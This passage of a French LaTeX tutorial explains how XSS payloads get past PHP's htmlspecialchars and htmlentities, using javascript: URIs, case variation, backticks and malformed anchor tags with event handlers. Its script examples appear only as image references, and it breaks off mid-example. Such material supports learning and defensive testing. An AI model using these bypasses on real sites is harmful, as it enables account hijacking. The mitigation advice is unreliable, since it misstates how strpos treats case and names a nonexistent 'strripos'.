
\includegraphics[width=\textwidth]{20}
}}
\vspace{0.2cm}
\subsection{XSS - Bypass htmlspecialchars et htmlentities avec UTF-7}

\subsection{XSS - Bypass htmlspecialchars et htmlentities avec les directives Javascript}

Comme dit plus haut, htmlspecialchars et htmlentities permettent seulement de convertir certains caractères et si l'on utilise aucun de ces caractères, ces deux fonctions deviennent inutiles. En utilisant les directives javascript, il est possible d'effectuer une XSS de la manière suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
javascript:alert(1)
}}
\vspace{0.2cm}

Prenons le script de test que j'utilise assez souvent depuis le début de cette section :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{23}
}}
\vspace{0.2cm}

On obtient alors le résultat suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{24}
}}
\vspace{0.2cm}

Comme on peut le voir, les deux fonctions sont complètement inutile contre ce type de script. Suivant la fonction utilisé, il est même possible de faire des redirections de pages et donc de faire ce que l'on veut (usurpation?).

\subsection{XSS - Bypass htmlspecialchars et htmlentities et les filtrages de chaines}

Sur plusieurs site, j'ai pu trouvé des chaines qui filtrait les directives javascripts en utilisant les fonctions suivantes : \textbf{strpos} ou encore \textbf{stripos}. Quand on regarde sur la documentation de PHP, on remarque que ces fonctions ne tiennent pas compte de la casse. Or on peux écrire la directive javascript sans tenir compte de la casse, c'est à dire que javascript:, Javascript:, JAVASCRIPT:, JaVaScRiPt: représente exactement la même chose. Je vais réutilisé l'exemple précédent en rajoutant un filtrage de chaines pour utilise la XSS suivante :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
Javascript:alert(1)
}}
\vspace{0.2cm}

Le code de la page est le suivant. Il faut bien noté l'utilisation de la fonction strpos pour filtrer le mot javascript du résultat de l'input :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{25}
}}
\vspace{0.2cm}

Et en utilisant la XSS, on bypass l'ensemble des fonctions :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{26}
}}
\vspace{0.2cm}

Il faut par conséquent utiliser la fonction strripos qui permet de filtrer l'ensemble des chaine utilisant le terme javascript.

\subsection{XSS - Bypass htmlspecialchars et htmlentities avec les accents graves}

Les deux fonctions htmlspecialchars et htmlentities ne filtre pas tous les caractères. Par exemple, l'accent grave est un caractère qui dans certains cas peux servir de variante aux guillemets. Si vous avez essayé, vous remarquerez que la XSS suivante ne fonctionne pas si les fonctions sont présentes :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
Javascript:alert('I am a XSS')\\
ou encore\\
Javascript:alert("I am a XSS")
}}
\vspace{0.2cm}

Du coup, comment peux-t-on s'affranchir de ce filtrage de guillemets ? LES ACCENTS GRAVES ! Tout simplement comme ceci :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
Javascript:alert(`I am a XSS`)
}}
\vspace{0.2cm}

Donc utilisons le script suivant :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{27}
}}
\vspace{0.2cm}

Et en utilisant la XSS précédent, on peux cette fois utiliser des guillemets :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{

\includegraphics[width=\textwidth]{28}
}}
\vspace{0.2cm}

\subsection{XSS - Avec les malformations de balise et l'auto-correction des navigateurs}

Une chose de vraiment pratique avec les navigateurs, c'est qu'ils aiment corriger le html des pages internet sur lesquelles les utilisateurs arrivent. Maintenant, si sur un forum ou n'importe quelle plateforme d'échange il est possible d'écrire ou de modifier certaines balises html, des failles XSS peuvent être utiliser. Par exemple, la balise de lien <a> en est un parfait exemple. Si le tag HREF est manquant, les navigateurs auront tendance à rajouter les guillemets après le premier égale trouvé. C'est très pratique et permet de se servir des HTML DOM event :
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
<a onmousemove=alert(1)>Latsuj</a>
}}
\vspace{0.2cm}

Si maintenant, on injecte cela dans notre exemple et que l'on passe la souris sur le resultat du premier lien, on obtiens notre message d'alerte.
\vspace{0.2cm}\\
\fbox{\parbox{\textwidth}{
